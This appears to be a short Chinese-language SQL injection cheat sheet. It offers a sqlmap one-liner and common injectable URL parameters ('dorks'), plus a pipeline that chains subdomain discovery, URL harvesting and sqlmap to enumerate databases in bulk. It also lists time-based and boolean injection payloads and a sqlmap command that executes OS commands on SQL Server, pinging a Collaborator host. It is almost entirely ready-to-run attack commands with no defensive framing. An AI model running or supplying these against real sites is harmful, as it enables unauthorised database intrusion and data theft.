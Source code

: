 # SQL注入

## 快速自动化测试注入

`Sqlmap -u https://url/something/*`



## top 10 Dorks

```
1.?id=
2.?cat=
3.?view=
4.?mode=
5.?tid=
6.?product_id=
7.?act=
8.?item_id=
9.?table=
10.?module=
```



## one-line

```
subfinder -d http://target.com > subs
cat subs | httpx > subs.alive
cat subs.alive | gau_go -b jpg,png,gif > urls.check
gf_go sqli urls.check > urls.sqli
sqlmap -m urls.sqli --dbs --batch --random-agent
```

联动

```
cat subs.alive | gau_go -b jpg,png,gif > urls.check && gf_go sqli urls.check > urls.sqli && sqlmap -m urls.sqli --dbs --batch --random-agent
```



## 测试语句

```
select if( table_name like 'x', benchmark(100000,sha1('_Y000!_')), concat(table_name) ) from information_schema.tables
```



mssql

```
'xor(if(now()=sysdate(),sleep(10),0))or'
```



```
1 AND 1726=1726
```



## SQLMAP 语句收集

SQL Server执行命令:

```
sqlmap -r request.txt --force-ssl -p pramater --level 5 --risk 2 -dbms="Microsoft SQL Server" --os-cmd="ping http://your.burpcollaborator.net"
```

